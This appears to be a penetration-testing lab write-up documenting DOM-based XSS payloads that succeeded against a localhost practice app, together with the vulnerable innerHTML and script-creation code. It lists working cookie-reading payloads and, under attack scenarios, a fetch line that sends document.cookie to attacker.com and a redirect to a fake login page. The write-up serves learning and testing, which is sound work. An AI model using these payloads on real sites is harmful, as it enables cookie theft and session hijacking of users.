 # xss payloads documentation

## vulnerability analysis

**target application**: `http://localhost:8000/`

**vulnerability type**: dom-based xss

**attack vector**: form input field with insufficient sanitization

## successful payloads

### 1. direct DOM Manipulation

**payload**: `document.getElementById('cookieOutput').innerHTML = 'Cookie value: '+document.cookie`

**injection point**: text input field

**execution context**: script element creation

**result**: successfully displays cookie content "Cookie value: ftcookies=if_you_see_me_its_win"

### 2. direct javascript execution

**payload**: `alert(document.cookie)`

**injection point**: text input field

**execution context**: script element creation

**result**: open a popup and successfully displays cookie content "ftcookies=if_you_see_me_its_win"

### 3. event handler exploitation

**payload**: `<img src=x onerror=alert(document.cookie)>`

**injection point**: text input field via innerhtml

**execution context**: image load error event

**result**: open a popup and successfully displays cookie content "ftcookies=if_you_see_me_its_win"

### 5. input focus-based payload

**payload**: `<input onfocus=alert(document.cookie) autofocus>`

**injection point**: text input field via innerhtml

**execution context**: automatic focus event

**result**: create a input text that display a popup and successfully display cookie content "ftcookies=if_you_see_me_its_win"

## technical analysis

### root cause

the application contains two critical vulnerabilities:

   1 - **unsafe innerhtml usage**:

```javascript
   document.getelementbyid("output").innerhtml = "<b>" + userinput + "</b>";
```

   allows html/javascript injection through dom manipulation.

   2 - **direct script element creation**:

```javascript
   var script = document.createelement("script");
   script.textcontent = userinput;
   document.body.appendchild(script);
```

   directly executes user input as javascript code.

### attack scenarios

#### scenario 1: cookie theft

- **payload**: `fetch('http://attacker.com/steal?cookie=' + document.cookie)`
- **impact**: exfiltrates session cookies to external server
- **risk level**: critical

#### scenario 2: session hijacking

- **payload**: `window.location='http://attacker.com/login?redirect=' + document.url`
- **impact**: redirects user to malicious login page
- **risk level**: high

## testing environment

- **browser**: [firefox v140.0.2]
- **date**: [06/08/2025]
- **tester**: [Daniel Trigo - dande-je]
